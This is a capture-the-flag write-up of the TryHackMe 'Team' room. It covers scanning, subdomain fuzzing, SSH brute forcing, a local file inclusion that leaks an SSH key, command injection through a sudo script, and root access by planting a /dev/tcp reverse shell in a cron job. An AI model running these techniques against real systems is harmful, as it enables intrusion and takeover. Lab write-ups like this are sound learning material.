# [Team][1]
Beginner friendly boot2root machine

#### Scan the Machine
> If you are unsure how to tackle this, I recommend checking out the [Nmap Tutorials by Hack Hunt][2].

`nmap -sV -Pn <IP>`



Looks like we have three ports open: `21, 22, 80`

> Let's check the webpage as port 80 is open. Well its just the Apache Server Default Page. Nothing much really.

I tried different things, didn't find much:

- :no_good: Nothing on GoBuster  
- :no_good: Nothing using enum4linux  

Then I checked the source code and found something interesting in the TITLE.


> It says to add **team.thm** to the HOSTS file.


> I checked the link in the browser with `team.thm`. It gives me a google search results. But on the TOP is says go to the website, so I did. The result was fascinating.


> I don't know about you guys! But I was little surprised with the result. Therefore, I did some search and found this is called ***Virtual Host Routing***.

So with a new domain I tried to run the GoBuster Again: `gobuster dir -u http://team/thm -w /var/share/wordlists/dirb/common.txt -x txt,php,html`


> *robots.txt* file looks interesting so I checked the file in the browser `team.thm/robots.txt`. Huh! Just a four letter word 'dale'. Well it can be username.

As through Nmap scan we know that ssh port is open. We can now bruteforce `hydra -l dale -P rockyou.txt ssh://<IP>`
> I waited for like hours but didn't found anything  :sob:

Let's try WFUZZ to check for subdomains. `wfuzz -c -u http://team.thm -H "Host:FUZZ.team.thm" -w <wordlist>`

[Wordlist][5] I used is from SecLists. Also, we you are not sure of this commands like GoBuster and WFUZZ check [Advent Of Cyber 2][4] on TryHackMe (Day 4).

>When I tried to run the command there were two many results. So I stopped and add `--hw 977` as most of the files has this word counts.



> Seems like we found subdomain `dev`. So this is what HINT was about. Let's add the subdomain to HOSTS file and check the site.



I added `dev.team.thm` and `www.dev.team.thm`.



Clicking on the links takes us to another page.



Seems like a script is running and a `page` variable. Wonder if the HINT was about this too  :innocent:.

> BAAAAM! We got the user flag. We know that `dale` is a user and the flag can be in dale's root directory.

We can try for LFI here, FIRE UP your BurpSuite.
1. Capture the Request
2. Send it to intruer

3. Select payload. For this I used [Wordlist][3] from PayloadsAllTheThings.

As the port `21, 22` are open. I first looked for the file:
- /etc/ssh/ssh_config
- /etc/ssh/sshd_config
- /etc/vsftp.config

After looking through this files. I found **SSH Key** of DALE in `sshd_config` file. We have a SSH Key. Copy the content from `----BEGIN..` and paste in the file. I named the file `id_rsa` (this is the general name used). Use `chmod 600 id_rsa` (this is the general permissions of a SSH Key). Connect using `ssh -i id_rsa dale@<IP>`



BOOM! We got the access. Now first thing I do is check for sudo list commands. That can be done using `sudo -l`



There is a file which can be run using `gyles` user. Let's check the content of the file.



Seems like a file which takes input from the user. Specially ***$error*** variable seems to interact with SHELL. What if we give input `/bin/bash`.



Run the file with `gyles` rights, so that we can get access to that user.



We can work with this as a shell. However, I learnt something like ***Shell Stabilization*** in [Advent of Cyber 2][4] (Day 24)

Run command -> `python -c 'import pty;pty.spawn("/bin/bash")'`


> BAAM! We got stable shell as `gyles`. We didn't have the password of this account. So `sudo -l` is not a good idea.

I was kinda in trouble here however I had [linPEAS][6] to rescue.

Fireup another shell and transfer `linpeas.sh` to the machine using `scp -i id_rsa <location_in_your_pc> dale@10.10.7819:.`.


> This will transfer the file to the home directory of `dale`.

Let's run the file and see what kind of results we have.



There is a lot of information. But we are interested in the lines with RED color.

- User is in **admin** group.
- sudo version is **1.8.21p2**.
- /usr/local/bin
  - It is writeable directory and has a file
  - In **cron jobs** I see the file `main_backup.sh` which is in the same dir.
- /var/backups/www/team.thm/scripts/scripts.old


> Seems like a bash command and this file can be edited, as `gyles` is
 in `admin` group. Also, we know that this file runs as `root` (cronjobs` found via *linPEAS*).

 Therefore, we can add the famous bash one liner to get a shell as `root`.
 - Open the file using `nano main_backup.sh`
 - Add the Bash CMD -> `bash -i >& /dev/tcp/<YOUR_IP>/4444 0>&1`.
 - Press `Ctrl+X`, then `Y` and then ENTER.

 

Start a listner using `nc -lvnp 4444`



Wait for a while and you will have a shell as a `root`



You know what to do next :stuck_out_tongue_winking_eye:



[1]: https://tryhackme.com/room/teamcw
[2]: https://www.hackhunt.in/search/label/Nmap
[3]: https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/File%20Inclusion/Intruders/Linux-files.txt
[4]: https://tryhackme.com/room/adventofcyber2
[5]: https://github.com/danielmiessler/SecLists/blob/master/Discovery/DNS/subdomains-top1million-20000.txt
[6]: https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS
